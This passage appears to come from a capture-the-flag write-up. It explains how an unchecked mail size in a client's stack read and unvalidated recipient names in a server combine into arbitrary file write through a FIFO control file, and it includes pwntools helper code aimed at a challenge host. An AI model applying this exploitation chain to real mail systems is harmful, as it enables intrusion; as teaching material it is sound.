 Here is where it gets interesting. It queries the mail server for the mail file contents, which are stoed in /home/mailserver/data/USERNAME. It outputs the subject, and then opens the content file. It first reads the first 4 bytes and runs `atoi` to convert it to an integer, and reads that many bytes into a buffer on the stack. This buffer is then written to stdout. **The size of the mail data isn't checked, which is where the vulnerability lies**. It's not immediately clear how we can even use that when the stack buffer is 0x800 in size anyway and when *sending* mail, the size is capped at 0x800. That's where something else comes in.

## Interfacing with the FIFO
We get two vulnerabilities here, one in the mail client and one in the mail server.

In the mail client - **the size of the mail data is not checked before it is read into a stack buffer**

In the mail server - **when sending email, it is not checked that the email is valid, nor that it actually exists**

Mail is sent to /home/mailserver/data/USERNAME. At first, I considered trying to execute a directory traversal attack by sending email to, for example, ../../pwned@hackemall.live, however the mailclient bans slashes in the email. However, **it permits full stops(or periods)**

That means that sending emails to update.event@hackemall.live will allow us to write data to /home/mailserver/data/update.event, interacting with the fifo's API. This is very powerful - a combination of SET and NEW gives arbitrary file write as the mailserver user. 

I built some simple functions for interacting with the mailclient.
```python
from pwn import *
e = ELF("./mailclient")
libc = ELF("./lib/libc.so.6")

context.binary = e

def login(email, password):
    p.sendlineafter("> ", "1")
    p.sendlineafter(": ", email)
    p.sendlineafter(": ", password)

def send(username, subject, content, content_size=None):
    if content_size is None:
        content_size = len(content)
    p.sendlineafter("> ", "3")
    p.sendlineafter(": ", f"{username}@hackemall.live")
    p.sendlineafter(": ", subject)
    p.sendlineafter(": ", str(content_size))
    p.sendafter(": ", content)

def read():
    p.sendlineafter("> ", "4")
    p.recvuntil(": ")
    subject = p.recvline()[:-1]
    data = p.recvuntil("*")[:-1]
    return subject, data
 
p = remote("139.162.36.205" if args.REMOTE else "localhost", 1337)

# We just need to interact with the mailclient's update.event file and that gives us arbitrary file write.
# From there, we can forge custom emails and achieve buffer overflows.

# Sending an email to update.event@hackemall.live will do it.

email = "day@hackemall.live"
password = "t"

```
